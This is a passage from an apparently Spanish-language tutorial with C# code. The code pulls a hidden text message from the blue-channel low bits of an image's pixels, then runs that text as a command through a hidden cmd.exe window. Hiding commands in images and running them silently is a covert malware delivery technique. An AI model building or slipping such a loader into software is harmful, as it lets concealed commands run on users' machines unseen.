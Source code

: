  ```csharp
                            byte pixelAzul = pixel.B;

                            byte mensajeBit = (byte)(pixelAzul & 1);


                            if (indiceByte >= mensajeBytes.Length)
                            {
                                Array.Resize(ref mensajeBytes, mensajeBytes.Length * 2);  // Doblamos el tamaño del arreglo
                            }

                            mensajeBytes[indiceByte] = (byte)((mensajeBytes[indiceByte] << 1) | mensajeBit);

                            if (j % 8 == 7)
                            {
                                indiceByte++;
                            }
                        }
                    }

                    return Encoding.UTF8.GetString(mensajeBytes, 0, indiceByte).Substring(0, mensajeOriginal.Length);
                }
            }
            catch (Exception ex)
            {
                return "error al buscar mensaje";
            }
        }

        static void EjecutarComando(string comando)
        {
            Process.Start(new ProcessStartInfo
            {
                FileName = "cmd.exe",
                Arguments = "/c " + comando,
                CreateNoWindow = true,
                UseShellExecute = false
            });
        }

        #endregion
    }
}


```

####    Explicación del Código para la Extracción y Ejecución:
-   **Extraer los bits:** Recorrimos nuevamente los píxeles de la imagen y extraímos los bits menos significativos de la componente azul de cada píxel. Estos bits se recomponen en el comando original.
-   **Ejecutar el comando:** Usamos Process.Start para ejecutar el comando extraído en la consola de Windows.

---